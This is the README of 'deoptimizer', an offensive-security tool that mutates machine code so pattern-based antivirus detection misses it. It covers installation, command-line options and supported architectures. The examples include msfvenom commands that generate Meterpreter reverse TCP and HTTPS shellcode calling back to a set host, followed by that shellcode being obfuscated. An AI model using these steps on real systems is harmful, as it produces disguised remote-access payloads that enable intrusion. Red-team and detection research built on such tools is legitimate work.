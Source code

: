 # De-Optimizer
<div align="center">
  <img src=".github/img/banner.png">
  <br>
  <br>


  [![GitHub All Releases][release-img]][release]
  [![Build][workflow-img]][workflow]
  [![Issues][issues-img]][issues]
  [![Crates][crates-img]][crates]
  [![License: MIT][license-img]][license]
</div>

[crates]: https://crates.io/crates/deoptimizer
[crates-img]: https://img.shields.io/crates/v/deoptimizer
[release]: https://github.com/EgeBalci/deoptimizer/releases
[release-img]: https://img.shields.io/github/v/release/EgeBalci/deoptimizer
[downloads]: https://github.com/EgeBalci/deoptimizer/releases
[downloads-img]: https://img.shields.io/github/downloads/EgeBalci/deoptimizer/total?logo=github
[issues]: https://github.com/EgeBalci/deoptimizer/issues
[issues-img]: https://img.shields.io/github/issues/EgeBalci/deoptimizer?color=red
[license]: https://raw.githubusercontent.com/EgeBalci/deoptimizer/master/LICENSE
[license-img]: https://img.shields.io/github/license/EgeBalci/deoptimizer.svg
[google-cloud-shell]: https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/EgeBalci/deoptimizer&tutorial=README.md
[workflow-img]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml/badge.svg
[workflow]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml
[moneta-ref]: https://github.com/forrest-orr/moneta
[pe-sieve-ref]: https://github.com/hasherezade/pe-sieve
[insomnihack]: https://www.youtube.com/watch?v=Issvbst_89I


This tool is a machine code de-optimizer. By transforming/mutating the machine code instructions to their functional equivalents it makes possible to bypass pattern-based detection mechanisms used by security products.

## Why?
Bypassing security products is a very important part of many offensive security engagements. The majority of the current AV evasion techniques used in various different evasion tools, such as packers, shellcode encoders, and obfuscators, are dependent on the use of self-modifying code running on RWE memory regions. Considering the current state of security products, such evasion attempts are easily detected by memory analysis tools such as [Moneta](https://github.com/forrest-orr/moneta) and [Pe-sieve](https://github.com/hasherezade/pe-sieve). This project introduces a new approach to code obfuscation with the use of machine code de-optimization. It uses certain mathematical approaches, such as arithmetic partitioning, logical inverse, polynomial transformation, and logical partitioning, for transforming/mutating the instructions of the target binary without creating any recognizable patterns. The tool is capable of transforming the instructions of a given binary up to ~95% by using the mentioned de-optimization tricks.

**Watch the presentation for more...**
- [Why So Optimized? - Insomni'hack 2024](https://youtu.be/Issvbst_89I?feature=shared)

## Installation

**Download the pre-built release binaries [HERE](https://github.com/EgeBalci/deoptimizer/releases).**

[![Open in Cloud Shell](.github/img/cloud-shell.png)](google-cloud-shell)

***From Source***
```
cargo install deoptimizer
```

***Docker Install***

[![Docker](http://dockeri.co/image/egee/deoptimizer)](https://hub.docker.com/r/egee/deoptimizer/)

```bash
docker run -it egee/deoptimizer -h
```

## Usage

> [!WARNING]  
> This project is still in the development stage! The available transform gadgets, functions, and command line parameter names may be adjusted, backward compatibility is not guaranteed.

<div align="center">
  <img src=".github/img/quick-demo.gif">
</div>

---

```
Machine code deoptimizer.

Usage: deoptimizer [OPTIONS]

Options:
  -a, --arch <ARCH>                     Target architecture (x86/arm) [default: x86]
  -f, --file <FILE>                     target binary file name [default: ]
  -o, --outfile <OUTFILE>               output file name [default: ]
  -s, --source <SOURCE>                 source assembly file [default: ]
      --syntax <SYNTAX>                 assembler formatter syntax (nasm/masm/intel/gas) [default: keystone]
  -b, --bitness <BITNESS>               bitness of the binary file (16/32/64) [default: 64]
  -A, --addr <ADDR>                     start address in hexadecimal form [default: 0x0000000000000000]
      --skip-offsets <SKIP_OFFSETS>...  File offset range for skipping deoptimization (eg: 0-10 for skipping first ten bytes)
  -c, --cycle <CYCLE>                   total number of deoptimization cycles [default: 1]
  -F, --freq <FREQ>                     deoptimization frequency [default: 0.5]
      --transforms <TRANSFORMS>         allowed transform routines (ap/li/lp/om/rs) [default: ap,li,lp,om,rs]
      --allow-invalid                   allow processing of invalid instructions
  -v, --verbose                         verbose output mode
      --debug                           debug output mode
  -h, --help                            Print help
  -V, --version                         Print version
```

#### Examples

- Generate and de-optimize a 64 bit Metasploit reverse TCP shellcode
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -o shellcode 
deoptimizer -a x86 -b 64 -F 1 -f /tmp/shellcode
```
- Generate and de-optimize a 64 bit Metasploit reverse HTTP(S) shellcode

> [!WARNING]  
> Some shellcodes may cointain string values that needs to be skipped! In such cases the string offsets needs to be specified using the `--skip-offsets` parameter.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=8080 -o shellcode 
deoptimizer -a x86 -b 64 -F 1 --skip-offsets 275-287 324-574  -f /tmp/shellcode
```

## Currently Supported Architectures

- ✅ `Supported`
- 🚧 `In progress`
- ❌ `Unsupported`

|  **Architecture** | **32** | **64** |
|:-----------------:|:------:|:------:|
|      **x86**      |   ✅   |   ✅   |
|      **ARM**      |   ❌   |   🚧   |
|     **RISCV**     |   ❌   |   🚧   |

## TO DO 
- [ ] PE file support.
- [ ] ELF file support
- [ ] Mach-O file support.
- [ ] ARM architecture support.
- [ ] RISC5 architecture support.
